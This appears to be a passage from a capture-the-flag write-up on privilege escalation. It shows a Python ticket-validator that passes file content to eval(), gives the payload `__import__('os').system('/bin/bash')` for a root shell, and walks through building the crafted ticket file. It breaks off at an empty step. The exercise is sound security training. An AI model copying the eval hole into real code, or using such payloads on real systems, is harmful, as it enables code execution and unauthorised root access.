 ```py
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```
This is just a puzzle where the goal is to get to the `eval` function and execute arbitrary Python code. My goal was to spawn a root shell by executing `__import__('os').system('/bin/bash')`.

Basically, the script reads a file and a part of the file is being run inside the eval function. Here follows a step by step procedure of how I created the file that got me a root shell.

1. Filename must end with .md
```py
def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()
```
2. First line of the file must start with `# Skytrain lnc`
```py
def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
```
3. Second line of the file must start with `## Ticket to`
```py
```

[explainshell]: https://explainshell.com/explain?cmd=nmap+-sC+-sV+-oA+bountyhounter+10.10.11.100
[nmap]: https://nmap.org/
[burp]: https://portswigger.net/burp/communitydownload
[dirb]: https://www.kali.org/tools/dirb/
[xxe]: https://portswigger.net/web-security/xxe
[xxe-payloads]: https://github.com/payloadbox/xxe-injection-payload-list
[cyberchef]: https://gchq.github.io/CyberChef